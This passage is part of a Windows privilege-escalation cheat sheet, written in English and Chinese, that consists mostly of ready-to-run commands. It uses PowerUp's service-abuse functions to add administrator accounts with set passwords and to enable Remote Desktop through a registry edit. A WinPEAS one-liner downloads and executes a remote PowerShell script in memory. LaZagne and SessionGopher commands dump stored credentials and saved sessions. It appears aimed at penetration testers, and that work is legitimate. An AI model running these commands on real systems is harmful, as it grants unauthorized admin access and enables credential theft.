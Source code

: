 	- **AbuseFunction**: If we type in this command as-is, **PowerUp.ps1** will exploit the service automatically and add a user named **john** with a password of **Password123!** to the administrator’s group. (This can be changed of course but this is the default configuration.)

- 執行abuse檢測測 (will add john:password123!)
``` powershell
Install-ServiceAbuse -Name "AbyssWebServer"
```
``` powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -User hacker -Password Password1337
```
- Running a custom command
``` powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Command "reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
```
- 執行可以修改的程式檢測
``` powershell
Get-ModifiableServiceFile
```
### SharpUp 
[SharpUp](https://github.com/GhostPack/SharpUp)
```
SharpUp.exe audit 
```
### PrivescCheck
[PrivescCheck](https://github.com/itm4n/PrivescCheck)
 ``` powershell
Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```
### Windows Exploit Suggester - Next Generation (WES-NG)
[WES-NG](https://github.com/bitsadmin/wesng)
``` cmd
systeminfo > systeminfo.txt
wes.py systeminfo.txt
```
### LaZagne
[LaZagne](https://github.com/AlessandroZ/LaZagne)
```
laZagne.exe all
```
### SessionGopher
[SessionGopher](https://github.com/Arvanaghi/SessionGopher)
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```
### WinPEAS
[WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20240121-3ce7876d)
``` powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
- 當沒有顏色，可以用以下指令
``` 
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
### 其他列舉工具
- [Watson](https://github.com/rasta-mouse/Watson)
- [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)